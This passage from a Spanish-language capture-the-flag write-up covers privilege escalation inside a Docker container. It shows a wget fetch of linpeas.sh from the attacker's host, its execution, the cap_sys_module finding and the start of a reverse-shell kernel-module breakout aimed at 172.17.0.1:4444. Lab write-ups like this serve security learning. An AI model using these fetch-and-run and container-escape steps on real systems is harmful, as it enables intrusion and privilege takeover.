 ## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}


Haremos el mismo proceso anterior para obtener una `tty full interactive`. Lo siguiente que haremos sera descargarnos el `linpeas.sh` del repositorio de `carlospolop` y subirlo al contenedor para buscar formas potenciales de elevar nuestro privilegio.


```bash
root@b097fc57960e:/tmp# wget http://10.10.16.3/linpeas.sh
--2023-05-14 22:54:08--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 835306 (816K) [text/x-sh]
Saving to: ‘linpeas.sh’
```


Le damos permiso al archivo y lo ejecutamos.

```bash
root@b097fc57960e:/tmp# chmod +x linpeas.sh 
root@b097fc57960e:/tmp# ./linpeas.sh
```

Despues de esperar a que nos haga un reconocimento, nos reporta algo potencial referente a una capability `sys_module` con la cual podemos convertirnos en `root` en la maquina real.

```bash
╔══════════╣ Container Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

Si quieres saber mas al respecto puedes guiarte de este articulo.

*[https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)


Lo primero que debemos hacer es crear un archivo `reverse-shell.c` con un contenido especifico, donde podemos cambiar la `ip y puerto` en el cual deseamos recibir la conexión, en este caso yo realizare la conexión en la interface `docker` del usuario `marcus` la cual corresponde a la `172.17.0.1` y en cuanto al puerto usare el que esta por defecto `4444`.
